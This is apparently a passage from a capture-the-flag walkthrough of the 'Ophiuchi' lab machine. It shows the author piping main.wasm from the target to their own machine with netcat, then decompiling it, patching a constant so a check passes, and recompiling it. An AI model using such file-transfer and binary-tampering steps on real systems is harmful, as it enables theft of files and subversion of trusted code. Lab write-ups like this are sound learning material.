 Then i went to admin@Ophiuchi to send the main.wasm  to my box so that i can edit it
##### Code
*Replace your ip and desired port*
```code
cat main.wasm | nc 10.10.14.201 8888
```

##### Screenshot 34
![[Pasted image 20210705155741.png]]

then checked my box and performed a ctrl + C and the main.wasm was transferred

##### Screenshot 35
![[Pasted image 20210705160122.png]]

then i performed this it had a file

##### Screenshot 36
![[Pasted image 20210705164317.png]]

##### Code
*wasm2wat*
```code
./wasm2wat main.wasm
```

then i performed this to save it so i can be able to change value const value to one because our code was having not equal to one you can ref #screensht30

##### Code
```code
./wasm2wat main.wasm > main.wat
```

##### Screenshot 37
![[Pasted image 20210705170106.png]]

then constant is now changed to 1

then i did wat2wasm

##### Code
```code
./wat2wasm main.wat
```
 
 then removed the main.wasm
 then performed the wat2wam again code
 
 ##### Screenshot 38
 ![[Pasted image 20210705171050.png]]
 
 it is able to create another main.wasm
 